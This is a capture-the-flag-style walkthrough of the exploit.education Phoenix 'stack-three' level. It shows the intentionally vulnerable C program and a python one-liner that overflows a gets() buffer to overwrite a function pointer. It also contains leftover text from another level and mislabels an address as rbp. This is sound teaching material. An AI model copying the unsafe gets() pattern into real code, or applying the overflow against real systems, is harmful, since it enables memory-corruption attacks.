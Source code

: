 ```yaml
---
description: 07/17/2023
---
```


# 3⃣ Stack Three

> Stack Three looks at overwriting function pointers stored on the stack.

#### Hints

* You can use `gdb` and `objdump` to determine where the `complete_level()` <mark style="color:yellow;">function</mark> <mark style="color:yellow;">is in memory</mark>.

## Source Code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our main goal is to find out where the `changeme()` variable is.

Once we locate it in memory, we need to change the value to: `0x0d0a090a`.

* `0x0d0a090a`
* `\x0a\x09\x0a\x0d`

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

## GDB

```
gdb stack-three
```

Let's check out the disassembly for the `main()` function:

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's check out the disassembly for the `complete_level()` function:

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

We can see that `0x000000000040069d` is the memory address for the stack base pointer (`rbp`) for our function.

Let's try and mess with the program a bit more and send it a long string:

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

Interesting, we ended up receiving a segmentation fault, meaning our program attempted to write/access out of bounds memory and in return forcefully crashed our program to protect our system.

We ended up getting the message calling function pointer `0x585858`... and was curious to see what that looked like in the ASCII table:

Hex `58` is equivalent to char `X`. We can see this by doing `man ascii`:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

So, if we go back and look at our `complete_level()` function, we need to get the program to call this so we can move on to the next level.

I also wanted to diversify with the tooling a little and decided to check out the same information in objdump as well. We can manually go through all of the disassembly without grepping for our function that we are looking for, but who wants to do that?

```
objdump -d stack-three | grep complete_level  
000000000040069d <complete_level>:
```

Take the following snippet of `main()`:

```c
int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
```

This is interesting ebcause we see our function pointer (`fp`) being set to `NULL`. `gets()` will take our input and store it within the 64-byte buffer (`buffer[64]`). And lastly in our `main()` function `locals.fp()` will be called to call whatever is stored in our function pointer (`fp`).

With that said, let's take the function pointer's address and convert it to little-endian and overwrite the buffer:

```
python -c 'print "X"*64 + "\x9d\x06\x40"' | ./stack-three
```

With our function pointer's address: `0x000000000040069d`, we take that and convert it to little-endian: `\x9d\x06\x40`, overwrite our 64-byte buffer that's specified within our structure, and send it to the binary, we're able to overwrite our function pointer!

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
